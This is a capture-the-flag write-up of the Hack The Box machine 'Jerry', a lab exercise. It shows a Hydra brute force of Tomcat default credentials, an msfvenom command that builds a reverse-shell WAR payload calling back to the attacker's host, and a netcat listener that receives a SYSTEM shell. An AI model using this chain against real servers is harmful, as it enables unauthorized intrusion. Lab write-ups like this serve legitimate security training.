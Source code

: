 ```yaml
---
layout: post
title: Jerry
date: 2025-01-21 04:01 +0000
categories: [Write Ups, Boxes]
tags: [red team pathway, difficulty:easy]     # TAG names should always be lowercase
---
```

# Overview: 
Jerry is a very easy box that involves finding an Apache Tomcat server and exploiting **Tomcat Web Application Manager** with weak credentials.
We then upload a malicous `.WAR` file to gain a system reverse shell and access to `user` and `root` flags. 
# **Reconnaissance**:
### Nmap:
We will get started as always with an `nmap` scan. 
```bash
sudo nmap -sC -sV -oA ~/htb/boxes/Jerry/nmap 10.10.10.95
...SNIP...
Nmap scan report for 10.10.10.95
Host is up (0.095s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

...SNIP...

```
Running `nmap` we see just one port open on `8080`. This port is running an `Apache Tomcat` webserver version:`7.0.88`.

## Web Enumeration:

Navigating over to `10.10.10.95:8080` we get what appears to be a default webpage.

![image.png](assets/img/Jerry/image.png)
_Default install of tomcat_

Poking around on the app, we see that `Server Status`, `Manager App`, `Host Manager` require a `username:password`

![image.png](assets/img/Jerry/image_1.png)

Testing the default credentials of `admin:admin` we gain access to the `Server Status` page. Looking around, there doesn’t seem to be any vector to exploit. 

![image.png](assets/img/Jerry/image_2.png)

Googling around for other default credentials doesn’t seem to net much, but if we observe the `403 - Access Denied` page when attempting to access `Manager App`, we get the following:

![image.png](assets/img/Jerry/image_4.png)
_Suggestion of the `manager` role with the username : password pair of `tomcat:s3cret`_

Trying these credentials, we get access to the *Tomcat Web Application Manager page.* 

![image.png](assets/img/Jerry/image_5.png)

> In most cases (_we hope_) credentials will not be so easily accessible. To circumvent this, we may need to brute-force the password. 
{: .prompt-tip }

### Bruteforcing:

#### Burpsuite:
We notice capturing the request to `http://10.10.10.95:8080/manager/html` that we have the `Authorization` header, which is a `Base64 encoded` value of the `username:password` that is entered. In this case, we don’t get access with value of `admin:admin`.

![image.png](assets/img/Jerry/image_3.png)

Using this knowledge of the request, we are now informed as to where to direct out brute-forcing attempt. 

#### Hydra:

Using hydra, we find the password `tomcat:s3cret`.

```bash
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
#-C FILE   colon separated "login:pass" format

...SNIP...
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret

```


# **Exploitation:**

## Web Exploitation:

In the **Tomcat Web Application Manager,** we see that we can upload and WAR files.

![image.png](assets/img/Jerry/image_6.png)

> A WAR (Web Application Archive) file allows developers to package all the components of a Java-based web application, including code, configuration, and static resources, for deployment on a web server or application server.
{: .prompt-info }


### Creating malicious WAR file:
We use will `msfvenom` to craft an exploit:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=8888 -f war -o upload.war
```
> #### Switches:
- `p java/jsp_shell_reverse_tcp`: Specifies the payload (a reverse shell using Java Server Pages).
- `LHOST=`: Your machine's IP address (for the reverse shell to connect back).
- `LPORT=`: The port on your machine to receive the reverse shell.
- `f war`: Specifies the output format as a WAR file.
- `upload.war`: Output file name.
{: .prompt-info }

### Getting shell:
Navigating to `http://10.10.10.95:8080/upload/`
![image.png](assets/img/Jerry/image_7.png)
_Upload displayed on GUI_


```shell
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
### Flags:
We have shell as system, so `user` and `root` flags are easy to get:
```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,450,302,464 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,450,171,392 bytes free

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
2 for the price of 1.txt

user.txt
7004dbce...SNIP...

root.txt
04a8b36e...SNIP...

```
